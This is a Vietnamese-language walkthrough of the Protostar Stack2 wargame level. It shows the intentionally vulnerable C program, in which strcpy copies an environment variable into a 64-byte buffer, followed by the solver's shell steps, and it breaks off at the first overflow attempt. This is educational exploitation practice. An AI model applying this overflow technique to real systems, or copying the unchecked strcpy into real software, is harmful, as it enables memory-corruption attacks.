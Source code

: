 # 3. Stack2  
## Source code  
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
Khi đọc source có thể thấy stack2 cũng  sẽ dùng `strcpy()` để gây overflow điểm khác là ta sẽ không pass argument trực tiếp nữa mà sẽ thông qua biến môi trường `GREENIE`.  
Kết quả chạy thử khi chưa set biến `GREENIE`:  
```
user@protostar:/opt/protostar/bin$ ./stack2
stack2: please set the GREENIE environment variable

user@protostar:/opt/protostar/bin$
```
Sau đó mình đã tạo thử biến `GREENIE` với giá trị bằng 1 và chạy thử:
```
user@protostar:/opt/protostar/bin$ export GREENIE=1
user@protostar:/opt/protostar/bin$ echo $GREENIE
1
user@protostar:/opt/protostar/bin$ ./stack2
Try again, you got 0x00000000
user@protostar:/opt/protostar/bin$
```
Sau 1 hồi tìm hiểu thêm thì mình biết rằng biến môi trường còn có thể dùng để execute câu lệnh:
```
user@protostar:/opt/protostar/bin$ export test=$(echo alalala)
user@protostar:/opt/protostar/bin$ export test1=$(python -c "print 'A'")
user@protostar:/opt/protostar/bin$ echo $test
alalala
user@protostar:/opt/protostar/bin$ echo $test1
A
user@protostar:/opt/protostar/bin$ 
```
Đầu tiên là overflow stack2:
```
user@protostar:/opt/protostar/bin$ export GREENIE=$(python -c "print 'A'*65")
```